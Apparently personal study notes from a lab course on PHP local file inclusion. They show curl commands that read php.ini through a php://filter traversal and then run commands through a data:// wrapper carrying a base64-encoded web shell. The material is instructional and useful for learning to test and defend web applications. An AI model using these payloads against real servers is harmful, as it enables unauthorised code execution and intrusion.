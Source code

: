 there are other ways to achieve RCE directly through the vulnerable function without relying on data enumeration or local file privileges   

### Data 

the `data` wrapper can be used to include external data, including PHP code   
only available to use if the `allow_url_include` setting is enabled 

we can check the configs file found at `/etc/php/X.Y/apache2/php.ini` for apache or `/etc/php/X.Y/fpm/php.ini` for nginx   
`X.Y` = the PHP version   
we will also use the base64 filter because .ini files are like .php files and should be encoded to avoid breaking 

```shell
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

we can then take the base64 encoded results and decode them to look for the `allow_url_include` setting: 

```shell
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

![](Images/Pasted%20image%2020240229091750.png)

now we know that we can use the `data` wrapper, and remember that this is not set by default but is required for several other LFI attacks   
it is not uncommon to see this setting set because it is required by many functionalities

we can now combine the `data` wrapper with base64 using `text/plain;base64`  

first we base64 encode a basic PHP shell: 

![](Images/Pasted%20image%2020240229092125.png)

which we can then url encode and use with the base64 data wrapper to execute commands: 

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<base64 encoded web shell>&cmd=id' | grep uid
```
